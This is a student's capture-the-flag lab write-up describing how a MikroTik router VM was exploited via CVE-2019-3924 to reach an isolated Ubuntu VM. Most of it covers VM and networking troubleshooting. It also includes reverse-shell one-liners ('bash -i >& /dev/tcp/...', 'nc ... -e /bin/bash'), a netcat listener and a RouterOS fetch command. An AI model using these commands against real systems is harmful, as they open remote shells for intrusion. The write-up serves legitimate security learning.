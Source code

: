 Okay, cool, we need to do exploit.

The setup is:

| Who                | network_internal | network_nat     |
|--------------------|------------------|-----------------|
| ubuntu vm          | 192.168.100.248  |                 |
| mikrotik router vm | 192.168.100.234  | 192.168.122.107 |
| Kali               |                  | 192.168.122.104 |

The ip for Ubuntu vm was gotten from the mikrotik using DHCP, so IP can change sometimes (I did the lab during a few days). Just bare in mind that if there is an IP 192.168.100.\*, but the \* != 234, then it's Ubuntu.

# VMs & networks

There was some (3h) configuration of VMs (qemu/kvm), because ubuntu did not want to connect to mikrotik, and I tried bridging (which required many scary commands on the host OS), a fully open network (which is bad) and an isolared network (which I settled on), with different VM network adapter types, and finally it did work! Then the plain old NAT worked to connect kali to mikrotik.

![ubuntu connected](img/ubuntu_connected.png)

I could use host OS instead of kali, because ubuntA and mikrotik were on an isolated (even from the host) network, but I decided that would be boring and went for a full blown Kali (but was testing on host).

# CHR

To configure chr, I got scared of the strange shell provided by default, so I went for winbox. However, I did not want to use the heavy altirrely (AUR and wine) and went for a windows 10 VM, which I connected to NAT and configured from. The unfortunate thing was, windows likes storage, and my SSD does not meet its demads, so windows got borked and I still needed to use AUR and wine. Fortunately, it did not bork my main OS yet.

The chr config can be found at [chr_config.txt](chr_config.txt).

# Exploit code

The exploit code is not that hard to make, but there is one problem. It does not compile!

The exploit was found in 2019, and Boost was way different back then. I needed to patch the utils that used some boost functionality to compile with the newer boost. Fortunately, someone has already done similar patches on a random github repository, so I sneakily looked at their pull request and transferred the knowledge to the exploit.

Here you can see the old code sample commented out and the new written:

![exploit patch](img/2_patch_code_for_newer_libraries.png)

Now I just need to init the Ubuntu VM using:

```
/tool fetch url="http://192.168.100.248/init.php\?email=husiev.pn@ucu.edu.ua" http-method=get dst-path=_.txt
```

# Yay, everything is done - let's launch

Okay, so now we have everything we need, right? right?

Yeah, so when I do init from kali, I get timeouts! What might be wrong???

I had no clue, and could not debug myself out.

Fortunately, if you chroot from host into ubuntu, you can just change the root password - cool. Now you can login and try debugging the application.

It turns out, it uses apache - so we need to look into /var/www - there is a directory `webapp` with lots of scripts. We just need to add debug output into a file (ask Claude 3.7 Sonnet to write some php for debugging) - it turns out, the request is got, but something goes wrong.

Okay, let's add debug prints to init.sh - yay, we found the issue: it does not git clone! wait, what? But I can do `ping github.com` or curl something - why can't I clone? It just hangs trying to clone, and then says something about gnu tls errors - internet has no idea, what went wrong.

A few more hours, and it turns out that if I turn off my VPN, everything starts working - huh?

![Disable vpn](img/3_disable_vpn.png)

Now I just have to listen at port 1337 (using `nc -lvp 1337`) and ask Dude politely to ask Ubuntu politely to create `a.php`, which would pipe bash into 1337 port of host's IP.

# Now everything is alright, right?

Well, no.

It turns out that having 4 VMs (one of which is windows) and 4 browsers opened at the same time, while having 8 GiB of RAM might be a bad idea - slooow.

![pain](img/4_pain.png)

Oh, wait, no no no! Applications go brrrr.

![OOM](img/5_oom.png)

Fortunately, the VMs stayed intact. Now everything has to work.

Well yes, but actually no. The ubuntu does receive the request to create a file `a.php`, it creates the file, but host does not receive any response: neither at port it is listening to for bash, nor as an http response. Damn!

Lots of tries (and some random stuff appearing in mikrotik) later, I managed to make mikrotik ping the host (I believe some rules in the firewal to pass trafic from inside to 192.168.100* resolved the issue, but I'm no longer sure). But the request still fails.

Some time later it turned out that I need to turn off port `1337` in my firewall at host - I should have thought about it earlier!

![firewall off](img/6_firewall.png)

# Yay

It was at this moment that everything worked! Yay!

![yay](img/7_yay.png)

The flag can be found at ![flag](flag.txt)

And, to prove that we can't ping the ubuntu from kali:

![can't reach](img/8_can't_reach.png)

# How my code works

Basically things changed:
- From using /upload switch to using /api_upload (and give not only the file, but also the key)
- Change from using `nc ip:port -e /bin/bash` to `bash -i >& /dev/tcp/ip/port 0>&1`
- Remove stuff checking for NUUO NVR
- Add the key to the request (I got it from the rooted ubuntu - I hope it's not a mortal sin...)

The full code can be viewed at [poc/cve_2019_3924/src/main.cpp](poc/cve_2019_3924/src/main.cpp)
